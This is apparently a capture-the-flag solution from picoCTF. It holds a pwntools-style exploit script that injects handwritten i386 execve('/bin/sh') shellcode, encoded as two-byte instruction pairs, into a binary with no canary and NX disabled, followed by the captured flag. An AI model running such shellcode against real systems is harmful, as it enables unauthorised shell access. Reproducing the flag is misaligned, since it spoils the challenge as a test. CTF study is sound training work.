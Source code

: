 ```py
#===========================================================
# Arch:     i386-32-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX disabled
# PIE:      No PIE (0x8048000)
# RWX:      Has RWX segments

io = start()

shellcode = b''

# push /bin/sh\0
shellcode += b'\x31\xc0'
shellcode += b'\x50\x90'

shellcode += b'\x04\x68'
shellcode += b'\xd1\xe0' * 8
shellcode += b'\x04\x73'
shellcode += b'\xd1\xe0' * 8
shellcode += b'\x04\x2f'
shellcode += b'\xd1\xe0' * 8
shellcode += b'\x04\x2f'
shellcode += b'\x50\x90'

shellcode += b'\x31\xc0'
shellcode += b'\x04\x6e'
shellcode += b'\xd1\xe0' * 8
shellcode += b'\x04\x69'
shellcode += b'\xd1\xe0' * 8
shellcode += b'\x04\x62'
shellcode += b'\xd1\xe0' * 8
shellcode += b'\x04\x2f'
shellcode += b'\x50\x90'

shellcode += b'\x31\xc0'
shellcode += b'\x89\xe3'
shellcode += b'\x89\xc1'
shellcode += b'\x89\xc2'

shellcode += b'\xb0\x0b'
shellcode += b'\xcd\x80'
shellcode += b'\x31\xc0'
shellcode += b'\x40\x90'
shellcode += b'\xcd\x80'

io.sendline(shellcode)

io.interactive()
```

## Flag

`picoCTF{th4t_w4s_fun_384f7c52706306d0}`

